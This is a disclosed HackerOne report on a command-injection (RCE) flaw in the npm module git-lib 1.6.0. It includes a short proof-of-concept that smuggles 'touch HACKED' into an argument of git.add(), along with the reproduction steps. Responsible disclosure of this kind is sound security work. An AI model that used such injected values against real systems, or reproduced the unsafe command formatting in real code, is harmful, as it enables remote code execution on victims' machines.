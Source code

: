 # [git-lib] RCE via insecure command formatting

## Report Details
- **Report ID**: 718241
- **URL**: https://hackerone.com/reports/718241
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-10-20T11:52:33.911Z
- **Disclosed**: 2020-09-24T16:17:52.871Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `git-lib` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `git-lib`
**version:** `1.6.0`
**npm page:** `https://www.npmjs.com/package/git-lib`

## Module Description
> A library that contains different methods to be consumed by a node module

## Module Stats
[~4/5] downloads in the last day
[30] downloads in the last week
[~120] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/shime/git-lib/blob/master/index.js#L32

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
var git = require("git-lib");

git.add("test;touch HACKED;").then(function(){
    /** successfully added **/
}).catch(function(err){
    /** unsuccessful **/
});

```
1. Check there aren't files called `HACKED` 
1. Execute the following commands in another terminal:

```bash
npm i git-lib # Install affected module
git init # Avoid problems with *git*
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created :) {F612830}

## Patch
> Don't format `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` via command formatting on `git-lib`

## Attachments
- Screenshot_from_2019-10-20_13-47-50.png
